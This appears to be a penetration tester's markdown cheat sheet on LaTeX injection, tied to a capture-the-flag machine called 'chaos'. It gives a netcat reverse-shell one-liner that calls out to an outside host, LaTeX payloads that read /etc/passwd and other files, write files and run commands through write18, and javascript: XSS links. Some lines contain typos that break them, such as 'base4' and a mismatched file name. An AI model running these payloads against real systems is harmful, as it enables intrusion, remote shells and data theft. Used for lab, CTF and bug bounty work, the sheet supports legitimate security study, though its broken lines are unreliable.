 # LATeX CMD Injection
LATEX:Latex is weird, but it's turing complete, and it's vulnerable.. 

VM: chaos.htb; there's a pdf page that allows injection

Note: When doing command injection through a web app like chaos, it doesn't like 
      the ampersand '&' input which can be troublesome if you're doing a common
      reverse shell that redirects stderr to stdin

```
$ mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

- just drop the redirect and proceed
$ mkfifo /tmp/f;cat /tmp/f|/bin/sh -i | nc 10.0.0.1 1234 >/tmp/f


## READ FILES 
```
\input{/etc/passwd}
\include{password} # load .tex file
```

## Read single lined file
```
\newread\file
\openin\file=/etc/issue
\read\file to\line
\text{\line}
\closein\file
```

## Read multiple lined file
```
\newread\file
\openin\file=/etc/passwd
\loop\unless\ifeof\file
    \read\file to\fileline
    \text{\fileline}
\repeat
\closein\file
```

## Read text file, keep the formatting
```
\usepackage{verbatim}
\verbatiminput{/etc/passwd}
```

## Write file
```
\newwrite\outfile
\openout\outfile=cmd.tex
\write\outfile{Hello-world}
\closeout\outfile
```

## Command execution
```
The input of the command will be redirected to stdin, use a temp file to get it.

\immediate\write18{env > output}
\input{output}
```

## If you get any LaTex error, consider using base64 to get the result without bad characters
```
\immediate\write18{env | base64 > test.tex}
\input{text.tex}
\input|ls|base4
\input{|"/bin/hostname"}
```

## Cross Site Scripting
From @EdOverflow
```
\url{javascript:alert(1)}
\href{javascript:alert(1)}{placeholder}
Live example at http://payontriage.com/xss.php?xss=$\href{javascript:alert(1)}{Frogs%20find%20bugs}$
```

## Links
https://medium.com/bugbountywriteup/latex-to-rce-private-bug-bounty-program-6a0b5b33d26a
https://0day.work/hacking-with-latex/


